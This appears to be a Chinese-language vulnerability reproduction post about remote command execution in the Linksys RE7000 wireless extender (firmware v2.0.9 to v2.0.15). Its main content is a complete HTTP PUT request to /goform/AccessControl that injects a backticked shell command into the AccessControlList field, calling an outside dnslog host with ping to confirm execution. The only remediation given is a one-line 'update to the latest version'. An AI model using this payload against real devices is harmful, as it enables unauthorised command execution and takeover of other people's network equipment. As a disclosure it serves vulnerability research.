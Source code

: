 ﻿@[toc]
# 漏洞描述
RE7000是Linksys推出的一款具有无缝漫游功能的双频AC1900无线扩展器，重点是with seamless roaming(无缝漫游)
# 漏洞原理
RE7000无线扩展器在访问/goform/AccessControl功能接口时在AccessControlList参数存在远程命令执行
# 影响版本

Linksys RE7000 v2.0.9
Linksys RE7000 v2.0.11
Linksys RE7000 v2.0.15
# 漏洞复现
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/007f31b78c1b4861ad3a006053fc9e28.png)
抓包用PUT方法提交参数
```yaml
PUT /goform/AccessControl HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 81
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1

{"AccessPolicy":"0","AccessControlList":"`ping -c 4 73003b47.dnslog.biz`"}

```

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/55873995ba764b30b55553ee6e1227da.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/e035fad2ef0f4c25bae6e559163e16d7.png)
# 修复建议
更新到最新版本


